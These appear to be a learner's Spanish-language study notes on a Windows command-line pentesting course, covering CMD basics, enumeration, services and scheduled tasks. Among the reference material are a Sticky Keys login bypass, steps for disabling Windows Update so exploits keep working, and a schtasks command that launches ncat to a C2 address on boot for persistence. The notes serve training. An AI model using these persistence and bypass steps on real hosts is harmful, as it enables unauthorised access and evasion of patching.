

### Introduction (Introduction to Windows Command Line 1/23)

#### Lo que ya sabía (repaso)
- CMD.exe y PowerShell vienen en todos los hosts Windows y dan acceso directo al OS para automatizar tareas.
- Desde PowerShell se pueden correr comandos de CMD; desde CMD hay que prefijar con `powershell` para correr cmdlets (ej: `powershell get-alias`).

#### Lo que NO sabía / no tenía claro
- Diferencias clave CMD vs PowerShell — tabla comparativa:

| Aspecto               | PowerShell        | CMD                                    |
| --------------------- | ----------------- | -------------------------------------- |
| Introducido           | 2006              | 1981                                   |
| Comandos              | Batch + cmdlets   | Solo batch                             |
| Aliases               | **✓**             | **X**                                  |
| Output a otro comando | **✓** (objetos)   | **X** (solo texto)                     |
| Formato de salida     | Objetos           | Texto                                  |
| Secuencia en script   | Cadena de cmdlets | Un comando termina antes del siguiente |
| ISE                   | **✓**             | **X**                                  |
| Acceso a librerías    | **✓** (.NET)      | **X**                                  |
| Multiplataforma       | **✓** (Linux)     | **X** (solo Windows)                   |

- CMD es interacción estática con el OS; PowerShell es lenguaje de scripting completo (scripts simples y complejos).
- El módulo se conecta con pentesting: reconocimiento, explotación y exfiltración usando herramientas built-in + third-party.
- Conexión a los labs: **solo por SSH** → `ssh htb-student@<IP>` (aceptar certificado + password).
### Command Prompt Basics (Intro to Windows Command Line 2/23)

#### Lo que ya sabía (repaso)

- `cmd.exe` es el intérprete de línea de comandos por defecto de Windows, basado en COMMAND.COM de DOS; presente en casi todas las versiones.
- Acceso local: `Win + R` → `cmd`, o `C:\Windows\System32\cmd.exe`.
- `dir` lista el directorio actual (request-response: comando → output).

#### Lo que NO sabía / no tenía claro

- **Local access** = físico/virtual directo (periféricos), no requiere red. **Remote access** = periféricos virtuales por red: SSH, RDP, WinRM, PsExec, telnet (inseguro, no recomendado).
- La conveniencia del acceso remoto es también riesgo: mal configurado o con credenciales robadas, un atacante obtiene acceso amplio al entorno.
- **Case study clave (Windows Recovery)**: desde el disco de instalación → Repair Mode → Command Prompt. En Windows 7 se puede reemplazar `sethc.exe` (Sticky Keys) por una copia de `cmd.exe`; al reiniciar, **Shift 5 veces** en la pantalla de login abre un CMD con `NT AUTHORITY\SYSTEM` → bypass total de autenticación.
- Dato ofensivo: cuando PowerShell está bloqueado (AppLocker), **CMD sigue disponible** — herramienta de legado útil para escalar privilegios y seguir moviéndose.

### Getting Help (Intro to Windows Command Line 3/23)

#### Lo que ya sabía (repaso)

- `help` lista los comandos built-in con descripción; `help <comando>` da detalles de uso y sintaxis.
- Comandos externos (ej: `ipconfig`) no tienen página de ayuda en `help` → hay que usar `/<comando> /?`.

#### Lo que NO sabía / no tenía claro

- El **por qué** existe: es un manual **offline** (equivalente a man pages en Linux). En engagements con red bloqueada/monitoreada no hay Internet — la ayuda interna es la única fuente.
    
- Recursos externos de referencia:
    - **Microsoft Docs** — lista completa de comandos CMD (man pages online)
    - **ss64.com** — referencia rápida multi-shell (cmd, PowerShell, Bash)
- Truco para preservar historial: a diferencia de Bash, **CMD no guarda historial entre sesiones** — al cerrar la ventana se pierde. Se puede exportar con doskey a un archivo.
- `doskey` es una utilidad MS-DOS que mantiene el historial de comandos de la sesión.

#### Tabla de historial (keys y comandos)

|Key/Comando|Descripción|
|---|---|
|`doskey /history`|Imprime el historial de la sesión (o lo exporta a archivo)|
|Page Up|Trae el primer comando del historial al prompt|
|Page Down|Trae el último comando del historial al prompt|
|↑ / ↓|Navegar historial arriba/abajo|
|→|Escribe el comando anterior carácter por carácter|
|F3|Retipea el comando anterior completo|
|F5|Cicl entre comandos previos (presionar varias veces)|
|F7|Lista interactiva de comandos previos|
|F9|Inserta comando por número en el historial|
|`cls`|Limpia la pantalla (no borra el historial)|
|Ctrl+C|Interrumpe el proceso en ejecución(al igual que en linux)|

- Cuidado con Ctrl+C: el proceso interrumpido queda **incompleto** y puede necesitar cierre limpio(asi como en linux jaja).

### System Navigation (Intro to Windows Command Line 4/23)

#### Lo que ya sabía (repaso)

- `dir` lista el directorio actual (con `<DIR>` para carpetas, tamaños, fechas, y bytes libres al final).
- `cd` / `chdir` sin argumentos muestra el directorio de trabajo actual.

#### Lo que NO sabía / no tenía claro

- Rutas en Windows: **absoluta** parte de la raíz (`C:\Users\htb\Pictures`); **relativa** parte del directorio actual (`.\Pictures`, `..\..\..\`).
- `..` sube un nivel; con `cd ..\..\..\` se llega de una subcarpeta a la raíz en un solo comando.
- Dato curioso: `C:\` es raíz porque en MS-DOS `A:\` y `B:\` eran floppy drives.
- `tree` imprime el árbol de carpetas de una ruta completa sin moverse; con **`/F`** incluye archivos. En hosts grandes genera output masivo → interrumpir con Ctrl+C cuando ya se vio lo necesario.

|Variable|Ruta|Por qué importa|
|---|---|---|
|`%SYSTEMROOT%\Temp`|`C:\Windows\Temp`|Accesible a todos los usuarios con RWX → dropear archivos como low-priv|
|`%TEMP%`|`C:\Users\<user>\AppData\Local\Temp`|Solo del usuario dueño; útil al comprometer una cuenta|
|`%PUBLIC%`|`C:\Users\Public`|RWX para cualquier cuenta interactiva; menos monitoreado que Windows\Temp|
|`%ProgramFiles%`|`C:\Program Files`|Apps de 64-bit instaladas → reconocimiento|
|`%ProgramFiles(x86)%`|`C:\Program Files (x86)`|Apps de 32-bit instaladas|

### Working with Directories and Files - CMD (Intro to Windows Command Line 5/23)

#### Lo que ya sabía (repaso)

- `dir` / `tree /F` listan contenido; `cd` navega.
- Muchas tareas tienen varios comandos equivalentes en Windows (md=mkdir, rd=rmdir, del=erase, ren=rename — pares sinónimos).

#### Lo que NO sabía / no tenía claro

**Directorios**

|Comando|Uso|Nota|
|---|---|---|
|`md` / `mkdir`|Crear directorio|Sinónimos|
|`rd` / `rmdir`|Borrar directorio|Falla si no está vacío → `rd /S` borra el árbol (pide confirmación)|
|`move <origen> <destino>`|Mover dir completo con contenido|También renombra|

- **xcopy**: existe pero **está deprecado** (sucedido por robocopy). Sintaxis: `xcopy <origen> <destino> <opciones>`. `/E` incluye subdirs vacíos. Brillo propio: quita el bit read-only al copiar (`/K` conserva atributos). Wildcards solo en origen.
- **Robocopy**: sucesor; copia/mueve local, entre drives y por red **reteniendo atributos, timestamps, ownership y ACLs**. No le gustan archivos sueltos (está pensado para árboles/drives).
    
    - `/L` = modo what-if (simula sin ejecutar)
    - `/MIR` = espejo; **cuidado: borra en destino lo que no esté en origen**
    - `/B` o `/ZB` = backup mode → requiere derechos _Backup and Restore Files_ (SeBackupPrivilege); sin ellos falla
    - Workaround: `/MIR` marca los archivos como backup de sistema y los **oculta** → limpiar con `/A-:SH`
    - Como atacante: copiar archivos bloqueados/sistema sin instalar herramientas; como defensor: adquirir evidencia conservando estado.
        

**Archivos — ver contenido**

|Comando|Uso|Nota|
|---|---|---|
|`more <archivo>`|Ver paginado con % avance|`/S` comprime líneas en blanco; acepta pipe: `ipconfig /all \| more`|
|`type <archivo>`|Volcar contenido (varios archivos a la vez)|**No bloquea el archivo**; admite redirección|
|`openfiles`|Ver archivos abiertos y por quién|Requiere admin; no habilitado por defecto|

**Crear/modificar/renombrar**

- `echo texto > archivo` → crea/sobrescribe; `>>` → anexa
- `fsutil file createNew <archivo> <tamaño>` → crear archivo de N bytes
- `ren` / `rename` → renombrar

**I/O y encadenamiento**

- `>` envía output a archivo (sobrescribe); `>>` anexa; `<` alimenta un archivo como input a un comando (`find /i "see" < test.txt`); `|` pipe entre comandos (`ipconfig /all | find /i "IPv4"`)
- `A & B` → corre ambos sin importar resultado
- `A && B` → B solo si A tuvo éxito
- `A || B` → B solo si A falló

**Borrar archivos**

- `del` / `erase`: aceptan lista, wildcards y filtros por atributo:
    
    - `/A:R` read-only, `/A:H` hidden, `/A:S` system, etc. (ver `help del`)
    - `/F` fuerza borrado de read-only; `/S` en todos los subdirs; `/Q` sin preguntar; `/P` confirma cada uno

- Detectar antes de borrar: `dir /A:R` (read-only), `dir /A:H` (hidden) → los archivos ocultos no aparecen en listado normal ni en GUI.
- Combinación clásica: `del /F <dir>` para vaciar + `rd /S <dir>` para eliminar la estructura.

**Copiar/mover archivos**

- `copy <origen> <destino>` — puede renombrar en destino; `/V` valida la copia
- `move` — mueve y/o renombra (archivos y dirs)

### Gathering System Information (Intro to Windows Command Line 6/23)

#### Diagrama — Types of Information (Host Enumeration)

#### Explicación del diagrama

El diagrama resume **qué buscar al enumerar durante un recon en un host Windows** (host enumeration). Al ganar acceso inicial se tiene acceso limitado y poco tiempo, por lo que no se puede revisar "todo"  se necesita un mapa de las 4 áreas de información que existen en cualquier sistema para ir directo a lo relevante.

1. **General System Information** ¿dónde se está parado? Hostname, versión/configuración del SO y parches. Con versión + hotfixes se busca en ExploitDB si existe CVE conocido para escalada sin esfuerzo.
2. **Networking Information** — _¿a qué redes se puede llegar?_ IP, interfaces, subnets, DNS y hosts ya contactados. El ARP cache y los DNS servers dibujan el mapa de la red interna sin escanear nada → próximos objetivos para movimiento lateral.
3. **Basic Domain Information** — _¿el host pertenece a un dominio?_ En AD las credenciales valen para toda la red y los recursos viven en el dominio, no en la máquina local.
4. **User Information** — _quién se es y qué se puede hacer._ Usuario, grupos, privilegios y lo accesible desde esa cuenta (variables de entorno, tareas, servicios). Rama más importante para **privilege escalation**: un privilegio Enabled inusual o un grupo custom puede ser la escalada completa.

**Por qué importa:** evita enumerar a ciegas (cada comando con propósito), prioriza (no se necesita SYSTEM en cada host), es la base de PE/lateral movement/persistence, y sirve a ambos bandos (red y blue).

#### Lo que ya sabía (repaso)

- Host enumeration = recopilar info del sistema; sirve a red team (vectores de explotación) y blue team (diagnóstico, hardening).
- `systeminfo`, `whoami`, `ipconfig`, `arp -a`, `net user` — los conceptos básicos de enumeración.

#### Lo que NO sabía / no tenía claro

**La metodología: preguntas guía antes de tocar el teclado** Enumerar sin estructura = horas perdidas mirando info que parece importante. El módulo propone 3 preguntas:

1. ¿Qué información del sistema se puede sacar del target?
2. ¿Con qué otros sistemas interactúa el target por la red?
3. ¿A qué cuentas se tiene acceso y qué información da cada una?

**Ejemplo "assumed breach"** (por qué enumerar a fondo): acceso inicial con cuenta sin privilegios → objetivo es escalar. Preguntas a responder:

- ¿Qué cuenta se tiene? ¿A qué grupos pertenece?
- ¿Qué privilegios tiene habilitados?
- ¿A qué recursos de red accede?
- ¿Qué tareas y servicios corren bajo esa cuenta?

Clave del módulo: es fácil descartar un sistema como "totalmente parchado", pero así se pierden los **errores humanos de configuración**, que son la mayoría de los vectores reales. **Enumerar a fondo tiene prioridad sobre explotar rápido.**

**Huella y detección (OPSEC):**

- Menos comandos = menor huella. Un comando que da la misma info que tres siempre es mejor opción.
- Conocer **varias formas de obtener la misma info** por si un comando específico está monitoreado.
- Ruta por CMD es **ruidosa**: genera muchos logs, deja rastros en múltiples hosts, y no da visibilidad de qué ven el EDR/NIDS del objetivo.
- Un usuario promedio ejecutando `cmd.exe` ya es sospechoso para un blue team; los comandos `net *` encienden alertas fácilmente con logging y monitoring bien configurados.

**Comandos en detalle:**

Casting a wide net:

|Comando|Info|Nota|
|---|---|---|
|`systeminfo`|Hostname, OS, build, dominio, hotfixes — todo en uno|Primer comando al ganar acceso: lay of the land con huella mínima. Versión + parches → búsqueda directa en Google/ExploitDB|
|`hostname`|Solo hostname|Alternativa si `systeminfo` está monitoreado|
|`ver`|Solo versión de OS|Complementa a hostname|

Scoping the network:

|Comando|Info|Nota|
|---|---|---|
|`ipconfig`|DNS suffix, IPv4, subnet mask, gateway por adapter|Múltiples interfaces = múltiples redes (ej. + una interna) → pistas del entorno|
|`ipconfig /all`|Todo lo anterior + MAC, DHCP, DNS servers por adapter|Vista completa de cada adapter|
|`arp /a`|ARP cache: IP ↔ MAC de hosts contactados, por interfaz|Mapeo de red **pasivo** (sin escanear): los hosts dinámicos ya hablaron con el target|

Understanding the current user:

|Comando|Info|Nota|
|---|---|---|
|`whoami`|`DOMINIO\usuario` actual|Si no es domain-joined muestra NetBIOS/hostname|
|`whoami /priv`|Privilegios con su estado Enabled/Disabled|Determina capacidades en el host; un usuario standard tiene casi todo Disabled. Cualquier privilegio extra habilitado = potencial escalada|
|`whoami /groups`|Grupos del usuario (built-ins + custom)|Grupos custom con acceso explícito son pistas de escalada|
|`whoami /all`|Todo lo anterior junto|Atajo cuando se necesita el panorama completo|

Otras cuentas y grupos:

|Comando|Info|Nota|
|---|---|---|
|`net user`|Lista usuarios locales (también crea/borra)|En redes pobladas = más cuentas para intentar comprometer|
|`net group`|Grupos de dominio|**Solo contra un DC** — en otro host devuelve error|
|`net localgroup`|Grupos locales del host|Funciona en cualquier host|

Por qué importa en dominio:cualquier usuario del dominio puede loguearse en cualquier host físico sin cuenta local → revisar qué usuarios usaron el host actual es vector de persistencia entre máquinas.

Recursos en la red:
|Comando|Info|Nota|
|---|---|---|
|`net share`|Shares del host|Default: C,ADMIN , IPC$. Un share **manual** (ej. `Records` → D:\Important-Files) = posible mina de datos. Checklist al encontrar uno: ¿permisos? ¿lectura/escritura/ejecución? ¿data valiosa? Shares también sirven de staging para payloads y movimiento lateral|
|`net view`|Recursos que el host conoce: domain resources, shares, impresoras|Búsqueda amplia del entorno|

### Finding Files and Directories (Intro to Windows Command Line 7/23)

#### Lo que ya sabía (repaso)

- `where <archivo>` localiza binarios/archivos si están en el PATH (ej: `where calc.exe` → `C:\Windows\System32\calc.exe`).
- `find` busca strings dentro de archivos o contra output de otro comando; no soporta wildcards.
- Practicamente y escencia igual que buscar en linux pero con diferencias.

#### Lo que NO sabía / no tenía claro

**where**

- Solo busca en el **PATH** por defecto → falla con archivos fuera de él (ej. un `.txt` en el user dir). Error típico: `INFO: Could not find files for the given pattern(s)`.
- `/R <ruta>` → búsqueda **recursiva** por todo el hive de directorios: `where /R C:\Users\student\ bio.txt`
- Acepta **wildcards**: `where /R C:\Users\student\ *.csv` → encuentra por tipo de archivo.

**find (strings, no archivos)**

- Busca una cadena dentro de un archivo o del output de otro comando.
- Modificadores:
    - `/V` → inversión (NOT): muestra las líneas que **no** contienen el string
    - `/N` → muestra números de línea
    - `/I` → ignora mayúsculas/minúsculas
    - Combinado: `find /N /I /V "IP Address" example.txt` → líneas que NO tienen "IP Address", con números, sin importar case.
- Limitación clave: **no acepta wildcards ni regex** → para eso existe findstr.

**findstr (find 2.0 ≈ grep de Linux)**

- Busca **patrones**: strings, regex, wildcards y más dentro de archivos.
- El reemplazo robusto de find cuando se necesita matching más específico.

**Comparación de archivos**

|Comando|Qué compara|Output|Modificadores clave|
|---|---|---|---|
|`comp`|Byte por byte|Diferencias en decimal por default; muestra dónde empiezan|`/A` en formato ASCII (caracteres), `/L` con números de línea|
|`fc`|Línea por línea (texto)|Bloques de líneas distintas entre archivo 1 y 2 — mucho más legible que comp|`/A` solo primera/última línea de cada diff, `/B` binario, `/C` ignora case, `/N` números de línea, `/U` Unicode, `/W` comprime espacios|

- Caso de uso defensivo: verificar si **scripts, ejecutables o archivos críticos fueron modificados** (integridad).
- Ejemplo comp: dos archivos con "a" → `Files compare OK`; al cambiar uno a "b" → `Compare error at OFFSET 2` con `/A` muestra `file1 = a / file2 = b`.

**sort**
- Entrada: consola, pipe (`|`, `<`) o archivo. Salida: consola, archivo (`/O`) u otro comando.
- `sort .\file-1.md /O .\sort-1.md` → ordena alfabéticamente y escribe a archivo nuevo.
- `/unique` → solo entradas únicas (elimina duplicados).
- **Buena práctica**: antes de comparar listas/archivos con fc, ordenar primero — si no, cada línea coincide en posiciones distintas y la comparación no sirve.

### Environment Variables (Intro to Windows Command Line 8/23)

#### Lo que ya sabía (repaso)

- Variables de entorno = settings globales del host, presentes en Windows/Linux/macOS pero con funcionamiento distinto en cada OS.
- Se referencian con `%NOMBRE%`; en Windows no son case-sensitive, pueden tener espacios y números, pero **no pueden empezar con número ni contener `=`**.
- Convención: mayúsculas + underscore (`%SYSTEMROOT%`).

#### Lo que NO sabía / no tenía claro

**Scope (dónde es accesible una variable)**

- Concepto de programación: Global vs Local.
- Ejemplo Alice/Bob: `%WINDIR%` es global (ambos la ven); si Alice hace `set SECRET=...`, Bob no la ve (`%SECRET%` se imprime literal y `set` dice "not defined").

**Scopes en Windows (3):**

|Scope|Descripción|Permisos|Registry location|
|---|---|---|---|
|**System (Machine)**|Variables del OS, globales para todos los usuarios, cargadas al runtime|Local/Domain Admin|`HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment`|
|**User**|Variables del usuario activo, solo accesibles por él|Usuario activo, Local/Domain Admin|`HKCU\Environment`|
|**Process**|Variables del proceso en ejecución, **volátiles** (mueren con el proceso); heredan de System/User y del proceso padre|Child/parent process o usuario activo|Ninguna (memoria del proceso)|

**Ver variables: set vs echo**

- `set` solo → imprime **todas** las variables del sistema.
- `set %VAR%` → intento de mostrar una: da "not defined" si no se está asignando nada (sintaxis confusa, mejor echo).
- `echo %VAR%` → imprime el valor de una variable. Sin features de edición.

**set vs setx — cuándo usar cada uno**

||`set`|`setx`|
|---|---|---|
|Alcance|Solo la sesión actual de CMD (process scope)|**Permanente**: escribe en el registry, persiste entre sesiones y reinicios|
|Sintaxis crear/editar|`set VAR=valor`|`setx VAR valor` (sin `=`)|
|Extra|—|Puede crear/modificar variables en otras máquinas del dominio|
|Efecto inmediato|Sí|**No**: los cambios se ven al abrir una nueva sesión CMD (en remoto, en el próximo logon)|

- Nota: la sintaxis de crear/editar/borrar es idéntica entre set y setx; solo cambia la persistencia.

**Crear / editar / borrar**

- Crear: `set DCIP=172.16.5.2` (sesión) o `setx DCIP 172.16.5.2` (permanente → `SUCCESS: Specified value was saved.`)
- Validar: `echo %DCIP%`
- Editar: volver a asignar con el nuevo valor (`setx DCIP 172.16.5.5`).
- Borrar: **no hay delete directo** → se asigna valor vacío: `setx DCIP ""`. Luego `set DCIP` confirma "Environment variable DCIP not defined".

**Variables importantes para enumeración (van en claro = mina de info)**

|Variable|Qué da|Valor típico / uso|
|---|---|---|
|`%PATH%`|Directories donde buscar ejecutables||
|`%OS%`|OS actual del workstation||
|`%SYSTEMROOT%`|Carpeta del sistema (read-only, definida por el sistema)|`C:\Windows` — binarios core y configs|
|`%LOGONSERVER%`|Servidor de logon del usuario activo + hostname|Sirve para saber si la máquina está en dominio o workgroup|
|`%USERPROFILE%`|Home del usuario activo|`C:\Users\{username}`|
|`%ProgramFiles%`|Programas x64|`C:\Program Files`|
|`%ProgramFiles(x86)%`|Programas 32-bit bajo WOW64; **solo en hosts de 64-bit** → revela arquitectura del host|`C:\Program Files (x86)`|

- Advertencia del módulo: las variables afectan el core del OS → **editar con extrema cautela**; para scripts/tools, crear una variable nueva antes que tocar una del sistema.

### Managing Services (Intro to Windows Command Line 9/23)

#### Lo que ya sabía (repaso)

- `sc` (Service Controller) comunica con el Service Control Manager para consultar, modificar y manejar servicios **local y remoto** (`\\ServerName`).
- Otras herramientas que tocan servicios: WMIC y Tasklist.
- `sc` sin parámetros muestra help con comandos: query, queryex, start, pause, stop, config, etc.

#### Lo que NO sabía / no tenía claro

**Query de servicios**

- `sc query type= service` → enumera servicios Win32 activos (type= driver solo drivers; state= all incluye detenidos).
-  **El espaciado en los parámetros es crítico**: solo `type= service` es válido; `type=service` o `type =service` son interpretados distinto y fallan.
- Info que da: SERVICE_NAME, DISPLAY_NAME, TYPE (WIN32 / WIN32_OWN_PROCESS / WIN32_SHARE_PROCESS), **STATE** (1 STOPPED, 2 START_PENDING, 3 STOP_PENDING, 4 RUNNING), si es STOPPABLE/NOT_STOPPABLE, WIN32_EXIT_CODE, CHECKPOINT, WAIT_HINT.
- Caso de uso del escenario del atacante: `sc query windefend` → Defender RUNNING pero `NOT_STOPPABLE` con permisos de usuario standard.

**Stop/Start — la lección de los permisos**

- `sc stop windefend` → `Access is denied.` (como usuario standard).
- **Sorpresa clave: como Administrator TAMBIÉN da `Access is denied.`** → ciertos servicios (como windefend) están protegidos por encima de admin local; solo SYSTEM puede detenerlos.
- Moral del módulo: **probar a ciegas llena los logs de errores** y dispara alertas de "usuario sin privilegios intentando tocar proceso protegido" → el blue team triangula y expulsa. Hay que conocer las restricciones antes de actuar.
- Servicio sí detenible: Spooler → `sc query Spooler` (RUNNING, STOPPABLE) → `sc stop Spooler` → estado pasa a STOP_PENDING y luego STOPPED.
- `sc start Spooler` → START_PENDING → RUNNING (tarda segundos en inicializar). Ojo: no todos los servicios responden a start/stop si otros servicios dependen de ellos.

**Modificar servicios con sc config**

- `sc config <servicio> start= disabled` → cambia el start type; se refleja en **registry + base de datos del SCM**.
    
- **Persistencia al reboot**: los cambios de config sobreviven reinicios → puede sacar un servicio permanentemente. Cautela.
- Los cambios solo aplican full **después de reiniciar el servicio**.
- Demo del módulo: deshabilitar Windows Update requiere **dos servicios**:
    
    - `wuauserv` (Windows Update) — usualmente STOPPED cuando no está actualizando
    - `bits` (Background Intelligent Transfer) — corriendo; hay que `sc stop bits` primero
    - Luego `sc config wuauserv start= disabled` y `sc config bits start= disabled` → `[SC] ChangeServiceConfig SUCCESS`
    - Verificar: `sc start wuauserv` → `FAILED 1058: The service cannot be started, either because it is disabled...`
    - Revertir: `sc config <svc> start= auto`
- Beneficio para el atacante: el sistema queda sin recibir updates → exploits siguen funcionando. Costo: **ruidoso**, alertas seguras, requiere elevación casi siempre.
    

**Otras rutas para enumerar servicios**

|Comando|Qué da|Nota|
|---|---|---|
|`tasklist /svc`|Procesos + PID + servicios hosteados bajo cada proceso|Rápido para ver qué proceso aloja qué servicio (ej: lsass.exe → KeyIso, SamSs, VaultSvc)|
|`net start`|Lista de servicios activos (display names)|`net stop/pause/continue <svc>` funcionan similar a sc|
|`wmic service list brief`|Todos los servicios (corriendo o no): Name, ProcessId, **StartMode** (Auto/Manual/Disabled), State, Status|Vista ideal de start modes; **WMIC está deprecado** — no depender de él|

### Working With Scheduled Tasks (Intro to Windows Command Line 10/23)

#### Lo que ya sabía (repaso)

- Task Scheduler ejecuta tareas cuando se cumplen condiciones (triggers) sin intervención manual.
- Persistencia clásica para atacantes; también uso legítimo de admins.
- `schtasks` es la utilidad CLI para gestionarlas.

#### Lo que NO sabía / no tenía claro

**Triggers disponibles** (la lista es extensa — opciones de persistencia):

- Evento de sistema específico, hora específica, diario, semanal, mensual, mensual por día-de-semana, idle state, al registrarse la tarea, **al bootear el sistema**, **al logon de usuario**, cambio de estado de Terminal Server session.

**Story time del módulo (caso real del autor):** tras aterrizar en un host, en vez de bajar otro ejecutable (que dispara AV/DLP), creó una scheduled task con trigger de logon/boot que abría un socket con PowerShell hacia su C2 → persistencia silenciosa. De suerte, la tarea corrió como SYSTEM → shell con escalada incluida. Lección: las tareas programadas **no suelen saltar alarmas de antivirus**.

**Query  ver tareas existentes**

- `schtasks /Query /V /FO list` → todas las tareas con propiedades avanzadas (formato legible).
- Parámetros clave:
    - `/fo` → formato: TABLE, LIST, CSV
    - `/v` → verbose (propiedades avanzadas; solo con LIST o CSV)
    - `/nh` → sin headers (con TABLE/CSV)
    - `/s \\host` → remoto (default localhost)
    - `/u <user> /p <pass>` → correr con credenciales (solo válido con `/s`; el user debe ser admin local o de dominio)
-  Por permisos, un usuario normal **no ve todas las tareas**.
- El output detallado revela: Task To Run, Schedule Type, Run As User, Logon Mode, Scheduled Task State, Author.
**Create  crear tareas (los 4 mínimos obligatorios)**
- `/create` + `/sc` (schedule) + `/tn` (nombre único) + `/tr` (acción a ejecutar). Todo lo demás es opcional.
- Parámetros extra:
    - `/sc` → ONSTART, ONLOGON, MINUTE, HOURLY, DAILY, WEEKLY, MONTHLY...
    - `/mo` → modificador (ej: cada 5 horas, cada otro día)
    - `/rl` → nivel de privilegio: LIMITED (default) o HIGHEST
    - `/z` → borrar la tarea al completar
- **Ejemplo del mpdulo (callback al boot):** `schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"` → ncat en AppData (evita tocar disk protegido) conecta al C2 → shell de vuelta tras cada reboot aunque se pierda acceso.
**Change  modificar tareas existentes**

- `/change /tn <nombre>` + lo que se modifique:
        - `/tr` → cambiar el programa/acción
    - `/ru <user> /rp <pass>` → cambiar credenciales con las que corre (ej: hash de admin → task omo SYSTEM)
    - `/ENABLE` / `/DISABLE`
- Verificar: `schtasks /query /tn "My Secret Task" /V /fo list` → "Run As User: SYSTEM" confirma el cambio.
- `/run /tn <nombre>` → disparar la tarea inmediatamente para probar que funciona.
**Delete — borrar**
- `schtasks /delete /tn <nombre>` → pide confirmación (Y/N).
- `/f` → suprime la confirmación (y no pregunta).